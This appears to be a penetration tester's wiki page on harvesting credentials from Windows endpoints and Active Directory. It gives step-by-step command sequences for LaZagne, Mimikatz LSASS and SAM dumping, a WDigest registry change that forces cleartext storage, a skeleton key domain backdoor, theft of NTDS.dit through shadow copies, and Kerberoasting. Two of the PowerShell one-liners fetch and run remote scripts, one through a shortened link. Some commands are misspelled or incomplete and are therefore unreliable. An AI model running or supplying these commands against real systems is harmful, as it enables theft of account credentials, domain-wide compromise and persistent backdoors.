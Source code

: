 # Endpoint Harvesting

## **Endpoint Harvesting Tools**

{% tabs %}
{% tab title="Reference" %}
* [http://pwnwiki.io/#!presence/windows/blind.md](http://pwnwiki.io/#!presence/windows/blind.md) - Windows Blind files to search for as an attacker
* [http://pwnwiki.io/#!presence/linux/blind.md](http://pwnwiki.io/#!presence/linux/blind.md) - Linux Blind files
* [http://pwnwiki.io/#!presence/windows/windows\_cmd\_config.md](http://pwnwiki.io/#!presence/windows/windows\_cmd\_config.md) - Commands that display information about the configuration of the victim and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.
* [http://pwnwiki.io/#!presence/windows/network.md](http://pwnwiki.io/#!presence/windows/network.md) - Windows commands to help you gather information about the victim system's network connections, devices and capabilities.
{% endtab %}

{% tab title="LaZagne" %}
### [LaZagne](https://github.com/AlessandroZ/LaZagne)&#x20;

LaZagne is an open-source tool used in post-exploitation to recover stored passwords on a system. Its modules support Windows, Linux, and OSX, but are primarily intended for Windows systems.\
Software uses different techniques to save credentials, such as saving them to a plaintext file, local databases or credential managers. LaZagne is able to search for these common methods and retrieve any passwords it finds.\
LaZagne is capable of extracting passwords from 87 different software applications from the following categories of software:\
Browsers, Chats, Databases, Games, Git, Mails, Maven, Dumps from memory, Multimedia, PHP, SVN, Sysadmin, WIFI, and  Internal mechanism password storage\
The LaZagne tool along with a full list of software that it supports is available in the [public GitHib repository](https://github.com/AlessandroZ/LaZagne).\
\
**Using LaZagne on Windows**

LaZagne's ability to retrieve stored credentials for Windows software is extensive and supports a large number of browsers including Chrome and Firefox, chat clients including Skype, databases, and mail clients including Outlook.\
The tool also supports credential retrieval for many sysadmin utilities like OpenVPN and OpenSSH, and password managers such as KeyPass, which could provide valuable credentials for moving to other hosts in a network.\
\
**Usage**

The Windows version comes with an executable (.exe) file that can be used as a standalone .exe; however, it is not able to detect some credentials such as Google Chrome passwords.\
Simply double clicking on the executable ‘Lazagne.exe' will cause a warning message which indicates that the executable is malicious.&#x20;

* To run the tool successfully, use the command prompt to execute LaZagne:
  * `> lazagne.exe`
  * &#x20;`# Run all modules`
    * `> lazagne.exe all`
  * `# Run the browser modules`
    * `lazagne.exe browsers`
* There is also a Python script in the Windows directory of the LaZagne repository that can run on systems with Python installed. There are a few requirements that may need to be installed first – check the requirements.txt file in the repository for more details.
  * `#python laZagne.py`
  * `# Run all modules`
    * `python laZagne.py all`
  * `# Run modules for Google Chrome. Add the -v flag for verbose output`
    * `python laZagne.py browsers -google -v`


{% endtab %}

{% tab title="Other Tools" %}
*
{% endtab %}
{% endtabs %}

{% embed url="https://youtu.be/AwFyiFOXrd0" %}

## Credential Extraction

<details>

<summary>MimiKatz</summary>

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md)

<!---->

* Pulls credentials out of LSASS
  * Can be run im memory so you dont drop and executable on the target
  * Commands - will give clear text pw of currently logged in users
    * \> C:\Tools\password\_attacks\mimikatz.exe
    * \# privilege::debug
    * \# token::elevate #elevate session to SYSTEM level
    * \# kerberos
    * \# wdigest
    * \# lsadump::sam #Dump SAM database
  * Windows 10 issue - Mimikatz will pull a NULL value when pulling creds as they are no longer in LSASS
    * Set registry key to put the credentials back into LSASS
      * \> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f
    * Empire Command version
      * \>shell reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f
    * You will need the user to relog into the system for this to take affect. Force this by locking thier workstation.
      * rundll32.exe user32.dll,LockWorkStation
  * Mimikatz NTLM hash of all users
    * \#reg save hklm\sam filename1.hiv
    * \#reg save hklm\security filename2.hiv
    * mimikatz#privilege::debug
    * mimikatz#token::elevate
    * mimikatz#log hash.txt
    * mimikatz#lsadump::sam filename1.hiv filename2.hiv
  * Mimikittenz
    * POC style tool that utilizes windows function ReadProcessMemory() to extract plain text passwords from various targets such as browsers
    * Search queries preloaded for Gmail, O365, Jira, github, bugzilla,zendesk, Cpanel, Dropbox, onedrive, AWS, SLack, Twitter, and Facebook
    * Does not require Local admin, it runs in Userland mem

</details>

<details>

<summary>Dumping LSASS with out Mimikatz</summary>

*

</details>

<details>

<summary>Skeleton Key attack</summary>

*
* [http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis](http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis)
* Back door a privileged AD account with Mimikatz
* To install the skeleton key
  * \>mimikatz.exe “privilege::debug” “misc::skeleton” exit
* Use
  * \>net use \* \\\dc\c$ mimikatz /user:lab@attacker.domain
  * [https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/](https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/)

</details>

<details>

<summary>Volume Shadow Copy</summary>

Once you have Domain Admin access, the old way to pull all hashes from the DC was to run commands on the domain controller and user Shadow volume or Raw copy to pull the ntds.dit file

* _RTFM: Volume Shadow Copy - pg.21_
* Volume Shadow Copy technique (old)
  * NTDS.dit file is constantly being locked as in use by the OS.
  * We can use Volume Shadow Copy to make an copy of it we can extract hashes from
    * C:\vssadmin create shadow /for=C:
    * copy \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy\[DISK\_NUMBER]\windows\ntds\ntds.dit
    * copy \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy\[DISK\_NUMBER]\windows\system32\config\SYSTEM
    * copy \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy\[DISK\_NUMBER]\windows\system32\config\SAM
    * reg SAVE HKLM\SYSTEM c:\SYS
    * vssadmin delete shadows /for=\[/oldest | /all | /shadow=]
* ALT
  * Volume Shadow Copy
    * \#vssadmin list shadows
      * \#set VSHADOW\_DEVICE=\\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12
      * \#for /R %VSHADOW\_DEVICE%\ %i in (\*) do @echo %i
      * &#x20;[https://blogs.msdn.microsoft.com/adioltean/2004/12/14/creating-shadow-copies-from-the-command-line/](https://blogs.msdn.microsoft.com/adioltean/2004/12/14/creating-shadow-copies-from-the-command-line/)

<!---->

* Listing shadow copy contents. This is tricky since the shadow copies are not regular (standalone) volumes. These are pseudo-volume devices, without a drive letter or volume name, in the form \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyNNN. You can still access their contents from the command line, if you know how. For example, copying a file from the shadow copy can be done this way:
  * dir > c:\somefile.txt
  * &#x20;vssadmin create shadow /for=c:
  * &#x20;vssadmin list shadows
  * &#x20;(get the shadow copy device, let's say that this is \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12)
  * &#x20;set VSHADOW\_DEVICE=\\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12
  * &#x20;copy %VSHADOW\_DEVICE%\somefile.txt c:\somefile\_bak.txt
* To enumerate all files on a shadow copy device we will use the "for /R" command. Note that we used %i and not %%i so the command below will not work properly in a CMD batch file:
  * dir > c:\somefile.txt
  * vssadmin create shadow /for=c:
  * vssadmin list shadows
  * (get the shadow copy device, let's say that this is \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12)
  * set VSHADOW\_DEVICE=\\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12
  * for /R• %VSHADOW\_DEVICE%\ %i in (\*) do @echo %i
* NinjaCopy [http://bit.ly/2HpvKwj](http://bit.ly/2HpvKwj)
  * Copies file from an NTFS partition volume by reading the raw volume and parsing the NTFS Strucutres
  * This bypasses file DACL's, read handle blocks, and SACL's
  * This can be used to read SYSTEM files that are normally locked like NTDS.dit registry hives
  * \> Invoke-NinjaCopy -Path “c:\Windows\ntds\ntds.dit” -LocalDestination "c:\Windows\temp\ntds.dit
* DCSync (Modern)
  * Impersonates the DC and requests hashes of all users on the domain
  * No need to touch the DC at all!!
  * Must have proper permissions: Domain Admins/Enterprise Admins/DC groups/ anyone with Replicating Changes permissions seg to Allow

</details>

<details>

<summary>Memory Extraction</summary>

*



</details>

#### Windows Service Extraction

{% tabs %}
{% tab title="Windows Native Tools" %}
* WCE - Windows Credential Editor
  * Lists windows logon sessions and add/change/delete associated credentials
* Windows credential manager
  * [https://github.com/peewpw/Invoke-WCMDump/blob/master/Invoke-WCMDump.ps1](https://github.com/peewpw/Invoke-WCMDump/blob/master/Invoke-WCMDump.ps1)
{% endtab %}

{% tab title="GPP Vuln" %}
* Group Policy Preference Vul
  * Info for accounts under GPP stored in a Groups.xml file that contains cpassword hash.
  * Uses a publiclally posed Microsoft AES , easy to find, easy to use
  * Exploit available Under powersploit script Get-GPPPassword.ps1
  * Metasploit module
    * \>use post/windows/gather/credentials/gpp
    * \>set SESSION \[Session # of your shell]
    * \>exploit
  * [http://esec-pentest.sogeti.com/public/files/gpprefdecrypt.py](http://esec-pentest.sogeti.com/public/files/gpprefdecrypt.py)
{% endtab %}

{% tab title="Cached Creds" %}
* Windows Cached Credentials
  * Windows caches the last 10 sets of credentials used on the device by default
  * Metasploit module - cachedump
  * Crack via hashcat
    * format: $DCC2$10240#account\_name#hash
    * oclHashcat64.exe -m 2100 hashes \mscash2.txt lists \crackstat\_realhuman\_shill.txt
    * Warning: With a normal GPU this takes on average 20 days to crack


{% endtab %}

{% tab title="PW Filter DLL" %}
* Password FIlter DLL - used by Windows to enforce password strength policies.
  * System administrators can create password filter DLLs to ensure all password changes meet a minimum requirement.
  * New passwords are passed to the DLL in plaintext, allowing attackers to leverage this Windows feature to steal credentials.
  * Password changes on Windows are handled by the Local Security Authority (LSA). When a password change occurs, the LSA executes each registered password filter to check that the new passwords meets the specified requirements.
  * Each password filter must return ‘true’ for the password change to occur; if any of the filters return ‘false’, an error is displayed to the user. Password filters can be installed locally or on domain controllers (DCs).
  * Password filters are created as DLL files and placed in the ‘C:\Windows\System32’ directory.
  * Once in place, the new file must be registered by adding its name (without the .dll extension) to the registry entry `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Notification Packages`.
  * The DLL file is comprised of three functions, each of which performs a specific task when executed.
    * `InitializeChangeNotify` is called to notify the filter that a password change has been requested. This function returns true or false to indicate whether if the filter has initialised successfully.
    * &#x20;`PasswordFilter` is called to validate the new password. This function contains the code to test the provided password and returns true or false to indicate if the password is valid.
    * `PasswordChangeNotify` is called to inform the filter if the password change was made successfully.
  * Password filter DLLs can be used by malicious actors to harvest account credentials. The `PasswordFilter` and `PasswordChangeNotify` functions both have access to the plaintext password and the name of the account whose password is to be changed. By installing a malicious password filter, attackers can exfiltrate every updated password to a remote server, local file or even block every password change by setting their filter’s `PasswordFilter` function to always return false.
  * Ensuring that appropriate permissions are set for the `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Notification Packages` key will prevent unauthorized users or groups from being able to register new filters.


{% endtab %}

{% tab title="Kerberoast" %}
* Kerberoasting
  * Any ticekt can be requested by any user with kerberos, from the domain controller
  * Those tickets are encrypted with the NTLM hash of the associated service user.
  * If we can guess the password to teh associated service user's NTLM hash, then we now know the password to the actual service account
  * Steps:
    * &#x20;List all SPN services. These are the service accounts for which we are going to pull all the kerberos tickets
      * \>setspn -T \[domain] -F -Q \*/\*
    * &#x20;Next we target either a single user SPN or pull all the user Kerberos tickets into our user's memory
      * Single target
        * \>powershell Add-Tpe -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArguementList “HTTP/\[hostname].\[domain].local”
      * All User tickets
        * \>powershell Add-Tpe -AssemblyName System.IdentityModel; IEX (New-Object Net.WebClient).DownloadString("https://githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1") | ForEach-Object {try{New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArguementList $\_.ServicePrincipalName}catch{}
      * &#x20;And the powersploit tool to automate this!
        * [https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
      * Now we have our tickets imported into memory and we need to extract them.
        * Mimikatz Kerberoast export:
        * \>powershell.exe -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2qx4kuH'); Invoke-Mimikatz -Command ‘’'''''kerberos::list /export'''''''
        * Once extracted and on our victims machine and we can start cracking them!
          * use tgsrepcrack.py
{% endtab %}
{% endtabs %}
